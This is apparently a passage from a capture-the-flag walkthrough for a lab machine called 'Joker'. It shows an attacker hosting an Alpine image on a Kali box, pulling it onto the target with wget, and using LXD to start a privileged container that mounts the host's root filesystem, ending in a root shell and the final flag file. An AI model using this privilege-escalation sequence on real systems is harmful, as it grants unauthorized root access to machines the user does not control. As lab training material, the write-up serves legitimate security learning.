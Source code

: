 ````console
python3 -m http.server 8080 -> KALI
````

````console
wget http://10.9.0.137/alpine-v3.19-x86_64-20240505_1945.tar.gz -> MACHINE
````

````console
www-data@ubuntu:/tmp$ lxc image import alpine-v3.19-x86_64-20240505_1945.tar.gz --alias myalpine
<-v3.19-x86_64-20240505_1945.tar.gz --alias myalpine
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | 2beab7563005 | no     | alpine v3.19 (20240505_19:45) | x86_64 | 3.48MB | May 5, 2024 at 7:54pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
````

````console
www-data@ubuntu:/tmp$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/tmp$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/tmp$ lxc start joker
lxc start joker
www-data@ubuntu:/tmp$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
~ # whoami  
whoami
root
````

#### What is the name of the file in the /root directory?

````console
/mnt/root/root # ls -la
ls -la
total 40
drwx------    5 root     root          4096 Oct 25  2019 .
drwxr-xr-x   22 root     root          4096 Oct 22  2019 ..
-rw-------    1 root     root            40 Oct 25  2019 .bash_history
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwx------    2 root     root          4096 Oct 22  2019 .cache
drwxr-x---    3 root     root          4096 Oct 24  2019 .config
drwxr-xr-x    3 root     root          4096 Oct  8  2019 .local
-rw-------    1 root     root            33 Oct 24  2019 .mysql_history
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
-rw-r--r--    1 root     root          1003 Oct  8  2019 final.txt
/mnt/root/root # cat final.txt
cat final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
````